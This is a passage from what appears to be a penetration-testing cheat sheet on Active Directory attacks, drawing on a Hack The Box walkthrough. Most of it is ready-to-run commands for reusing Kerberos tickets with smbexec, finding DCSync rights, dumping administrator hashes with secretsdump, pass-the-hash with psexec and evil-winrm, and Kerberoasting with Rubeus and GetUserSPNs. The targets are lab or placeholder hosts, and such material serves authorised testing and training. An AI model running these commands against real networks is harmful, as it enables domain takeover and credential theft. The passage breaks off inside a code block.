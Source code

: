 # Set local variable of KERB5CCNAME to pass the ccache TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k

```
source> https://cybergladius.com/htb-walkthrough-support/


### Dsync Attack
Read about dsync here: https://book.hacktricks.xyz/windows/active-directory-methodology/dcsync

* Find accounts with permissions for DSync using **powerview**

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}

```

* Dump Admin credentials with an account that has **permissions to do so**

`secretsdump.py xxx/usename@10.10.10.xxx -just-dc-user Administrator` 

* Use extracted hash to perform pass the hash attack

`psexec.py -hashes :32693b11e6aa90eb43d32c72a07cxxxx "xxx.local/Administrator@10.10.10.xxx"`

or using evil-winrm

`evil-winrm -i 10.10.43.76 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

PSexec can also be yused from windows client

`.\PSExec.exe \\dc1.domain.com cmd`

### Kerberoasting

* If local access is give then use Rubeus: 

Check first: `Rubeus.exe kerberoast /stats`
Roast: `Rubeus.exe kerberoast`


* Look for kerberoastable accounts:

`ldapsearch -H ldap://10.11.1.xxx -x -LLL -W -b "dc=xxx,dc=com" "(&(samAccountType=805306368)(servicePrincipalName=*))"`

if credentials available then login using parameters
`ldapsearch -H ldap://10.11.1.xxx -D 'Domain.com/User' -w 'PAsswrord'` 
 
* get TGSs for cracking 

```
GetUserSPNs.py xxx.com/xxx:xxx -outputfile hashes.kroast -dc-ip 10.11.1.xxx
